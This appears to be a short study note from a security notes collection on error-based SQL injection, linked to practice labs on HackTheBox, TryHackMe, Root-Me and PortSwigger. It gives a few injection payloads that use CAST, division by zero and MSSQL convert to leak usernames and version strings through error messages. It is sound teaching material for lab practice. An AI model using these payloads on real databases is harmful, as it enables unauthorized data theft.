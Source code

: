# Error-based SQLi

[![sqlinjectionfundamentals](../../../../../_badges/htb/sqlinjectionfundamentals.svg)](https://academy.hackthebox.com/course/preview/sql-injection-fundamentals)
[![sqlinjectionlm](../../../../../_badges/thm/sqlinjectionlm.svg)](https://tryhackme.com/room/sqlinjectionlm)
[![sqlilab](../../../../../_badges/thm/sqlilab.svg)](https://tryhackme.com/room/sqlilab)
[![validation](../../../../../_badges/htb-p/validation.svg)](https://app.hackthebox.com/machines/Validation)
[![sql_injection_authentication](../../../../../_badges/rootme/web_server/sql_injection_authentication.svg)](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-authentication)
[![sql_injection_string](../../../../../_badges/rootme/web_server/sql_injection_string.svg)](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-String)
[![sqli_visible_errors](../../../../../_badges/ps-lab/sqli_visible_errors.svg)](https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based)

<div class="row row-cols-lg-2"><div>

Error messages are sometimes enabled. They make it easier to exploit another type of SQL injection, such as Union-based SQLi.

If no other easiest SQLi attack is possible, we may use error messages to dump the database.

```sql!
-- Error: Incorrect INTEGER value: 'admin'
Select 1=CAST((SELECT username FROM membres LIMIT 1) AS int)
```

```sql!
-- Error: Division by zero
Select [...] where 1=(case when (1=1) then 1/0 else 0 end)
```
</div><div>

In MSSQL, if `CAST` doesn't work, try `convert`:

```sql!
-- Conversion failed ... value 'Microsoft SQL [...]' ...
Select convert(int,@@version)
Select convert(int,(select @@version))
```
</div></div>
